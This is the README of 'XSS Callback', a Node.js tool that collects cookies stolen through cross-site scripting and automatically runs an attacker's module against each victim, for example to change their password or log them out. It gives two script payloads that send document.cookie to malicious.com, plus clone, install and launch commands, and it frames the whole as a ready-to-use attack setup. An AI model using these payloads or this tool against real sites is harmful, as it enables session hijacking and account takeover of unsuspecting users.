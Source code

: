 ### XSS Callback

XSS Callback is a tool allowing you to exploit XSS vulnerabilities.

This is a HTTP Server (developed in Node.js) that is listening on a specific port (defined when launching it).
Everytime a victim will load the malicious link with his own cookie, the server will automatically launch the *offensive* module that you've written. 

**Example of module : **

*After getting the user's cookie :*
- Send a request to change his password
- Log him out

### Basic exploitation of XSS 

One common way to exploit those flaws is to create a PHP file/CGI script that will harvest victim's cookies and collect them in some file/database. 

Example of those basic payload : 
```
<script>document.location='http://malicious.com/cookie.php?cookie='+document.cookie</script>
```

Then, the attacker will be able to re-use those information to hijack victim's session. Ok. 
<br />

### What to do with XSS Callback ? 

Instead of reading your file for victim's cookie, XSS Callback is doing **your** job by calling your *offensive* module,  dynamically loaded when starting the App. 

You just need to write your own module corresponding to the application you want to target and launch the application to be accessible from the outside. (On your server)

You don't have to wait and read a file anymore. You perform the attack directly when you receive some data on this specific URL. 
This is the concept of *event driven programming*. 
<br /><br />
### Installation

Just clone the project : 
```
git clone git@github.com:PaulSec/XSS-Callback.git
```

Go in the directory and launch the application for the usage : 

```
cd XSS-Callback && node server.js
```

Usage is then displayed : 

```
Usage : node server.js <module.js> <port : default 8080>
```
<br />
### Use case


#### 1) Find a XSS

Ok, you got it! 

#### 2) Launch XSS Callback : 

On malicous.com, launch the tool : 

```
node server.js ./module/template.js 8080
```

#### 2) Insert your payload
Insert your payload on the website : 

```
<script>document.location='http://malicious.com/cookie/'+document.cookie</script>
```

#### 3) Check the console log
<br />
### License & Conclusion

Feel free to give your feedback, ask for new features for this tool. 
Moreover, if you need an example of how to write a module, don't hesitate. 

